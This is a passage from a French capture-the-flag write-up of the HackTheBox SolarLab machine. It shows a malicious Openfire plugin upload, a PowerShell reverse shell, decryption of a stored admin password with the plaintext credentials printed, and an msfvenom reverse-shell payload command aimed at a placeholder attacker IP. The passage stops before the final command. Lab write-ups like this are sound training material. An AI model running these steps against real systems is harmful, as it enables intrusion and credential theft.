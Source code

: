 ![Openfire new account](/images/HTB-SolarLab/openfire-new-account.png)

Une fois connecté, nous devons télécharger un plugin malveillant dans la section `Plugin`. Le plugin malveillant est le fichier `openfire-management-tool-plugin.jar` disponible sur le repo du PoC sur Github.

![Openfire malicious plugin](/images/HTB-SolarLab/malicious-plugin.png)

Allez dans `Server` --> `Server Settings` --> `Management Tool`, entrez le mot de passe `123` et cliquez sur `Login`. Vous obtenez des informations sur le serveur.

Sélectionnez `system command` dans le menu déroulant.

![Openfire system command](/images/HTB-SolarLab/system_cmd.png)

De retour sur [revshells](https://www.revshells.com/) nous obtenons un autre shell inversé Powershell et après l'avoir exécuté, nous obtenons un shell en tant que `openfire`.

![Openfire execute command](/images/HTB-SolarLab/execute-cmd.png)

![Openfire shell](/images/HTB-SolarLab/openfire_shell.png)

## Elévation de Privilèges (shell admin)

Nous n'avons toujours pas accès au compte administrateur, mais après une exploration du système, nous trouvons un fichier appelé `openfire.script` dans `C:\Program Files\Openfire\embedded-db`.

Le fichier contient les informations d'identification de l'utilisateur admin mais le mot de passe doit être décrypté. Heureusement, nous avons le hachage du mot de passe et la clé.

![Openfire encrypted password](/images/HTB-SolarLab/encrypted-pwd.png)

* Password hash: `becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442`
* Key value: `hGXiFzsKaAeYLjn`

Nous pouvons décrypter le mot de passe avec [openfire_decrypt](https://github.com/c0rdis/openfire_decrypt) en utilisant la commande ci-dessous.

```
java OpenFireDecryptPass [PASSWORD_HASH] [KEY_VALUE]
```

![Openfire password decrytion](/images/HTB-SolarLab/java-openfire-decrypt.png)

Les identifiants de l'administrateur sont: `admin:ThisPasswordShouldDo!@`

Les tentatives de connexion avec Evil-WinRM ne fonctionnant pas, nous avons recours à RunasCs.

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=YOUR_IP lport=PORT_NUMBER -f exe -a x64 --platform windows -o shell.exe
```

Après avoir envoyé `shell.exe` et `RunasCs.exe` à la cible, nous exécutons la commande ci-dessous.

